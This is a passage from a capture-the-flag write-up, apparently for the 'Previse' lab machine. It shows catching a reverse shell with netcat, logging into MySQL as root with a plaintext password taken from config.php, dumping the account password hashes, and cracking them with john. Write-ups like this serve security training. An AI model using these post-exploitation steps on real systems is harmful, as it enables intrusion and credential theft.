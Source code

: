
We run `netcat` on our kali box to catch our reverse shell and are logged in
as the `www-data` user.

    :::text
    nc -l -p 4242
    $ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Using the connection credentials in the `config.php` file we can login on the
MySQL database as `root` and grab the passwords in the `accounts` table.


    :::text
    $ mysql -u root -p
    mysql -u root -p
    Enter password: mySQL_p@ssw0rd!:)

    Welcome to the MySQL monitor.  Commands end with ; or \g.
    mysql> use previse;
    use previse;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> SHOW TABLES;
    SHOW TABLES;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)

    mysql> select * from accounts;
    select * from accounts;
    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | totoo    | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2021-08-25 12:49:52 |
    |  3 | toto1    | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-08-25 12:50:25 |
    +----+----------+------------------------------------+---------------------+
    3 rows in set (0.00 sec)

We run john on the hashes (keep the unicode salt character in the salt value)
with the rockyou dictionary and got the `m4lwhere` user password.

